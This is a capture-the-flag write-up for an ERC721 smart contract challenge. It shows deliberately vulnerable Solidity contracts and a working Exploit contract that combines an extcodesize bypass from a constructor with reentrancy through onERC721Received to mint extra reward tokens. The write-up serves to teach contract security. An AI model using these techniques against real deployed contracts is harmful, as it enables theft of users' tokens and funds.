 # Problem

A smart contract exploitation challenge with ERC721 tokens. There are two types of tokens here:

- Beyond (BYT) tokens distributed by the BeyondNFT contract, that can only be minted by the first 5 "non-contract" users who claim them for 1 ETH / token.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {ERC721} from "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import {Ownable} from "@openzeppelin/contracts/access/Ownable.sol";
import {AboveNFT} from "./AboveNFT.sol";

error ReceiverIsContract();
error AlreadyMinted();
error InvalidPrice();
error NotEligible();

contract BeyondNFT is ERC721, Ownable {

    AboveNFT public above;
    uint256 immutable private MAX_SUPPLY = 100;
    uint256 immutable private MINT_PRICE = 1 ether;
    uint256 public currentTokenId;
    mapping(address => bool) public hasMinted;
    mapping(address => bool) public isEligible;

    constructor() ERC721("Beyond", "BYD") Ownable(msg.sender) {}

    function mint() external payable {
        if(_isContract(msg.sender)) revert ReceiverIsContract();
        if(hasMinted[msg.sender]) revert AlreadyMinted();
        if(msg.value != MINT_PRICE) revert InvalidPrice();
        currentTokenId++;
        hasMinted[msg.sender] = true;
        if(currentTokenId <= 5) {
            isEligible[msg.sender] = true;
        }
        _safeMint(msg.sender, currentTokenId);
    }

    function claimSpecialPrize() external {
        if(!isEligible[msg.sender]) revert NotEligible();
        above.mint(msg.sender);
        isEligible[msg.sender] = false;
    }

    function setAboveAddress(address _above) external onlyOwner {
        above = AboveNFT(_above);
    }

    function _isContract(address sender) internal view returns(bool) {
        uint256 size;
        assembly {
            size := extcodesize(sender)
        }
        if(size == 0) return false;
        return true;
    }
}
```

- Above (ABV) tokens distributed by the AboveNFT contract, that can only be minted by the BeyondNFT contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {ERC721} from "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import {Ownable} from "@openzeppelin/contracts/access/Ownable.sol";

error OnlyBeyond();

contract AboveNFT is ERC721, Ownable {

    uint256 public tokenId;
    address private beyond;

    constructor() ERC721("Above", "ABV") Ownable(msg.sender) {}

    function mint(address receiver) external onlyBeyond {
        tokenId++;
        _safeMint(receiver, tokenId);
    }

    function setBeyondAddress(address _beyond) external onlyOwner {
        beyond = _beyond;
    }

    modifier onlyBeyond() {
        if(msg.sender != beyond) revert OnlyBeyond();
        _;
    }
}
```

The Challenge contract deploys a BeyondNFT and AboveNFT contracts linked together. The goal is to get at least 6 ABV tokens.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;
import {BeyondNFT} from "./BeyondNFT.sol";
import {AboveNFT} from "./AboveNFT.sol";

contract Challenge {
    BeyondNFT public beyond;
    AboveNFT public above;
    address constant public PLAYER = 0xCaffE305b3Cc9A39028393D3F338f2a70966Cb85;

    constructor() payable {
        beyond = new BeyondNFT();
        above = new AboveNFT();
        beyond.setAboveAddress(address(above));
        above.setBeyondAddress(address(beyond));
    }

    function isSolved() public view returns(bool) {
        uint256 totalSupply = above.tokenId();
        uint256 tokensOwned;
        for(uint256 i = 1 ; i <= totalSupply ; i++) {
            if(above.ownerOf(i) == PLAYER) tokensOwned++;
        }
        if(tokensOwned > 5) return true;
        return false;
    }
}
```

Author: [Greed](https://twitter.com/0xGreed_)

# Resources

- https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC721/ERC721.sol - ERC721 base contract.
- https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC721/utils/ERC721Utils.sol - ERC721Utils base contract.
- https://docs.openzeppelin.com/contracts/4.x/api/token/erc721 - ERC721 documentation.
- https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/extcodesize-checks/ - EXTCODESIZE check.
- https://hackernoon.com/hack-solidity-reentrancy-attack - Reentrancy attack.

# Solution

There are two vulnerabilities in the challenge:

1. The `_isContract` method in `BeyondNFT` uses `extcodesize` to check if an address is a contract or not. A contract executing its constructor method does not have an available code yet which means it will bypass the check. We can therefore mint a Beyond token from a contract constructor and our contract will receive a token.

```solidity
function _isContract(address sender) internal view returns(bool) {
    uint256 size;
    assembly {
        size := extcodesize(sender)
    }
    if(size == 0) return false;
    return true;
}
```

Similarly, the [ERC721Utils](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC721/utils/ERC721Utils.sol) `checkOnERC721Received` method will not check and will not call `onERC721Received` of the receiver if it has no code (if it's an EOA or if the contract is not yet created).

2. The `claimSpecialPrize` method is vulnerable to a reentrancy attack because `above.mint(msg.sender)` will trigger `onERC721Received` of the receiver contract and is executed before `isEligible[msg.sender] = false`. This means our contract can call `claimSpecialPrize()` during its `onERC721Received` execution to receive Above tokens over and over without being declared ineligible.

We can create a contract which mints an Beyond token in its constructor, then claims a large amount of special prizes (Above tokens) by exploiting reentrancy. Finally, the contract transfers the Above tokens to PLAYER to solve the challenge.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;
import {Challenge} from "./Challenge.sol";
import {BeyondNFT} from "./BeyondNFT.sol";
import {AboveNFT} from "./AboveNFT.sol";

contract Exploit {
    Challenge public challenge;
    BeyondNFT public beyond;
    AboveNFT public above;

    constructor(Challenge _challenge) payable {
        require(msg.value == 1 ether, "Must send 1 ether in constructor to mint");
        challenge = _challenge;
        beyond = challenge.beyond();
        above = challenge.above();
        // Mint 1 BYD token, can only be done in the constructor of the contract
        // This doesn't trigger onERC721Received because the Exploit contract has no code yet
        beyond.mint{value: 1 ether}();
    }

    function exploit() public {
        // Call claimSpecialPrize() once which will trigger onERC721Received
        beyond.claimSpecialPrize();
        // Send all our ABV tokens to the player
        for (uint256 i = 1; i < 9; i++) {
            above.safeTransferFrom(address(this), challenge.PLAYER(), i);
        }
    }

    function onERC721Received(address operator, address from, uint256 tokenId, bytes memory data) external returns (bytes4) {
        // Exploit reentrancy in claimSpecialPrize()
        if (tokenId < 10) {
            beyond.claimSpecialPrize();
        }
        return this.onERC721Received.selector;
    }
}
```

#web3 #Ethereum #Solidity #Reentrancy

